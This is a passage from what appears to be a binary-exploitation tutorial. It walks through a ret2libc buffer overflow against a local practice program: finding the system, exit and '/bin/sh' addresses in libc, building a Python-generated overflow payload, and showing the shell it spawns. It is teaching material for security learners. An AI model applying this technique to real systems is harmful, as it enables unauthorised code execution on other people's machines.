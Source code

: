 ```
  1471: 000ff1f0    67 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  2058: 001a815c     4 OBJECT  GLOBAL DEFAULT   31 obstack_exit_failure@@GLIBC_2.0
  2208: 00032c20    77 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2349: 00104900     2 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
```
So offset for system is `0x3f0b0` and exit is `0x32bf0`. A little bit of quick
maths (adding to libc base) gives us `0xb7e680b0` for system and `0xb7e5bbf0` for
exit

## /bin/sh
To find this we will use the strings utility on the libc binary
```
vagrant@precise32:/vagrant$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 1636a0 /bin/sh
```
The -a flag searches all the binary the -t flag tells strings to print offsets
and the x arg to the t flags specifies hex format. Adding this to libc base
gives `0xb7f8c6a0`

# Putting it alltogether
So with this information we now have our payload looks like
```
vagrant@precise32:/vagrant$ ./vuln2 $(python -c 'print "A" * 76 + "\xb0\x80\xe6\xb7" + "\xf0\xbb\xe5\xb7" + "\xa0\xc6\xf8\xb7"')
��
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),110(sambashare)
$ exit
vagrant@precise32:/vagrant$
```
As you can see above we dropped into a shell and when we exited it exited
cleanly so no coredumps etc are left around

# What Now!!
Go ahead and do this on your own and practice!!!!
